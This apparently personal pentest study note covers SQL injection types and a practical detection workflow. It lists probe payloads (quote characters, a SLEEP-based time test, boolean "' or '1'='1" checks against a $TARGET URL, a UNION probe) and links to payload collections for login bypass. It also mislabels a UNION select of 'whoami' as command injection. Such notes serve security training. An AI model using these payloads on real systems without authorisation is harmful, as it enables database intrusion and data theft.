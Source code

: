 Operators Handbook pg 324
OSCP Book pg 756
## Types of SQL Injections
SQL injections typically fall under three categories: In-band SQLi (Classic), Inferential SQLi (Blind) and Out-of-band SQLi. You can classify SQL injections types based on the methods they use to access backend data and their damage potential.
### **In-band SQLi**
The attacker uses the same channel of communication to launch their attacks and to gather their results. In-band SQLi’s simplicity and efficiency make it one of the most common types of SQLi attack. There are two sub-variations of this method:
-   **Error-based SQLi**—the attacker performs actions that cause the database to produce error messages. The attacker can potentially use the data provided by these error messages to gather information about the structure of the database.
-   **Union-based SQLi**—this technique takes advantage of the UNION SQL operator, which fuses multiple select statements generated by the database to get a single HTTP response. This response may contain data that can be leveraged by the attacker.
### **Inferential (Blind) SQLi**
The attacker sends data payloads to the server and observes the response and behavior of the server to learn more about its structure. This method is called blind SQLi because the data is not transferred from the website database to the attacker, thus the attacker cannot see information about the attack in-band.
Blind SQL injections rely on the response and behavioral patterns of the server so they are typically slower to execute but may be just as harmful. Blind SQL injections can be classified as follows:
-   **Boolean**—that attacker sends a SQL query to the database prompting the application to return a result. The result will vary depending on whether the query is true or false. Based on the result, the information within the HTTP response will modify or stay unchanged. The attacker can then work out if the message generated a true or false result.
-   **Time-based**—attacker sends a SQL query to the database, which makes the database wait (for a period in seconds) before it can react. The attacker can see from the time the database takes to respond, whether a query is true or false. Based on the result, an HTTP response will be generated instantly or after a waiting period. The attacker can thus work out if the message they used returned true or false, without relying on data from the database.
### **Out-of-band SQLi**
The attacker can only carry out this form of attack when certain features are enabled on the database server used by the web application. This form of attack is primarily used as an alternative to the in-band and inferential SQLi techniques.
Out-of-band SQLi is performed when the attacker can’t use the same channel to launch the attack and gather information, or when a server is too slow or unstable for these actions to be performed. These techniques count on the capacity of the server to create DNS or HTTP requests to transfer data to an attacker.
---
https://exploit.ph/web-hacking/2014/12/02/sql-injections/
#### Detection
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection
```
Try the following characters manually or in Burp Intruder where ever you see a parameter:
```
'
%27
"
%22
#
%23
,
%2C
;
%3B
)
' -- -
%27 -- -
" -- -
%22 -- -
# -- -
%23 -- -
; -- -
%3B -- -
) -- -
```
![[Pasted image 20220712133826.png]]
![[Pasted image 20220712133729.png]]
Notice how only the 18th payload has the same length as the baseline.  Meaning we should be able to manually load that payload `) -- - ` and the page would load correctly.
Test further with sleep:
```sql
&job=1)(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434 -- -
```
#### Boolean Based Detection
Original URL:
![[Pasted image 20220922210529.png]]
```
http://$TARGET/view.php?id=1141
```
Quick injection test:
![[Pasted image 20220922210601.png]]
```
http://$TARGET/view.php?id=1141'
```
Same results if we change the parameter to something non existent.
![[Pasted image 20220922210627.png]]
```
http://$TARGET/view.php?id=9999
```
Testing for Boolean logic (True statement):
```
http://$TARGET/view.php?id=9999' or '1'='1
```
Page loads correctly!
Testing for Boolean logic (False statement):
```
http://$TARGET/view.php?id=9999' or '1'='2
```
Page does not load correctly!
#### Database Detection
MySQL MSSQL MariaDB testing:
```
'||(SELECT '')||'
```
Oracle testing:
```
'||(SELECT '' FROM dual)||'
```
If the page loads correctly, that should mean you found an injection point.
#### Union command injection
All we have to do here is utilize union for command injection:
```
) union select 'whoami' -- -
```
![[Pasted image 20220712134347.png]]
#### SQL Login bypass
Use Intruder (Battering ram) + PayloadAllTheThings:
[[SQL Payload]]
#### SQL Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
See Operators Handbook pg 60 for more!
#### MySql
[[1.2_MySQL]]
#### MariaDB
[[1.3_MariaDB]]
#### OracleDB
[[1.4_OracleDB]]
#### MSSQL
[[1.5_MSSQLDB]]
#### MongoDB
[[Port 27017 - MongoDB ~]]